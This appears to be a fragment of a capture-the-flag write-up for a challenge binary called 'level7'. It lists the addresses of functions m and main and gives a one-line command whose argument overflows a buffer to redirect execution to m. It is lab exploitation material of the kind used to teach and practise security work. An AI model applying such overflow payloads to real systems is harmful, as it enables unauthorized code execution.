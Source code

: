 ```
0x080484f4  m
0x08048521  main
```

./level7 $(python -c 'print "A" * 21 + "\x08\x04\x84\xf4"[::-1]') "BBBBBBBB"
